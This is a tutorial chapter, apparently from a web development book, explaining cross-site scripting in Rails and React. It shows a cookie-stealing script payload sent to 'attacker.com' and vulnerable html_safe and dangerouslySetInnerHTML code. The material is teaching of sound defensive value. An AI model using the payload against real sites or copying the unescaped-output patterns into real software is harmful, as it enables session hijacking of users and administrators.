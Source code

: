 Cross-site scripting (XSS) is a security attack where the hacker tries to steal
the cookie/token so that the hacker could login to the system.

For XSS attack to happen hacker needs to execute custom JavaScript code. This
sentence is confusing to a lot of people because web pages execute JavaScript
code all the time.

Most of the web applications have JavaScript code. These JavaScript codes are
fine because these JavaScript codes are part of the application itself.

If a hacker is able to execute hacker's JavaScript code then hacker can steal
cookies or token. If a hacker is able to execute following JavaScript code then
hacker will have access to someone else's cookie:

```html
<script>
  new Image().src="http://attacker.com?cookie='+document.cookie;
</script>
```

Let's see how hacker might trick user into executing the JavaScript code of the
hacker.

Let's say that we have a Rails application and we want to display the address.
The developer might try something like this:

```ruby
array = [name, address1, address2, city_name, state_name, zip, country_name]
array.compact.join('<br />')
```

This will render data like this in the browser:

```msg
BigBinary<br />5214F Diamond Heights Blvd<br />Suite #553<br />San Francisco<br />94151
```

This does not look right. `<br />` is literally visible on the page.

To fix this, the developer changes code to following:

```ruby
array = [name, address1, address2, city_name, state_name, zip, country_name]
array.compact.join('<br />').html_safe
```

Now Rails renders the html content nicely and respects `<br />`:

```msg
BigBinary
5214F Diamond Heights Blvd
Suite #553
San Francisco
94151
```

That code has made application vulnerable to XSS attack. Here is what hacker can
do. Hacker signs up in the application as "Harry". We will call him "Harry the
hacker". Harry puts in the following value for address1 while filling out the
form:

```html
<script>
  new Image().src="http://attacker.com?cookie='+document.cookie;
</script>
```

A few weeks later admin of the site visits the page of Harry. When admin visits
the page of Harry then following code is executed:

```ruby
array = [name, address1, address2, city_name, state_name, zip, country_name]
array.compact.join('<br />').html_safe
```

Remember that Harry has put `<script>` tag in his address1. When the browser
sees any `<script>` tag then browser executes the JavaScript in the `<script>`
tag. In this way Harry's JavaScript code is executed by the browser. This script
accesses the cookie of the admin, and posts it to hacker's site.

While all this is happening the admin is not aware that the admin's cookie has
been stolen.

## dangerouslySetInnerHTML is dangerous

In React both `innerHTML` and `dangerouslySetInnerHTML` update the DOM node with
the HTML supplied. However `dangerouslySetInnerHTML` does not do any sanitation
of the HTML supplied. React trusts what user is doing when
`dangerouslySetInnerHTML` is used:

```javascript {
function buildMarkup() {
  return {
    __html:
      "<script>alert('XSS attack is possible if you this alert')</script>",
  };
}

<div dangerouslySetInnerHTML={buildMarkup()} />;
```

In the above case the application is vulnerable to XSS attack.

## Compromising third party libraries

These days our web applications use many third party libraries. We use
bootstrap, jQuery, React, Angular, Intercom, Drip, Google Analytics, mixpanel
and others. Typically, the code is something like this:

```html
<script src="https://thirpartylibrary.com/minified.js"></script>
```

If the third-party library is hacked, then the hacker is able to inject
malicious JavaScript code in the page. It means that if the hosting of the
third-party library is hacked, then the main application becomes vulnerable to
XSS attacks.

There is **nothing to commit** in this chapter since all we had done was
learning the basics of XSS attacks.
